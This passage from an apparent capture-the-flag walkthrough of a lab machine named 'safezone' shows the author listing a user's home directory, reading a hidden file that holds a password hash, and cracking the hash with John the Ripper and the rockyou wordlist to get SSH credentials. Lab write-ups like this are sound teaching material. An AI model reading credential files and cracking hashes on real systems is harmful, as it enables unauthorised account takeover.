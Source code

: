 I couldn't find any info on how to exploit this on `gtfobins`, let's leave it like that for now and proceed to check more stuff, for example, we can find this inside of `/home/files/`:

```
files@safezone:/$ ls -la /home/files
total 48
drwxrwxrwx 5 files    files    4096 May 20 07:04  .
drwxr-xr-x 4 root     root     4096 Jan 29  2021  ..
-rw------- 1 files    files       0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files    files     220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files    files    3771 Jan 29  2021  .bashrc
drwx------ 2 files    files    4096 Jan 29  2021  .cache
drwx------ 3 files    files    4096 Jan 29  2021  .gnupg
drwxrwxr-x 3 files    files    4096 Jan 30  2021  .local
-rw-r--r-- 1 files    files     807 Jan 29  2021  .profile
-rw-r--r-- 1 root     root      105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root     root      112 Jan 29  2021  pass.txt
-rw-r--r-- 1 www-data www-data 5493 May 20 06:39  rev.ph
```


We got `.something#fake_can@be^here`:

```
files@safezone:~$ cat .something#fake_can@be\^here
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

We got a hash, let's crack it using john:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
magic            (?)
```

We got the credentials, let's switch to ssh:

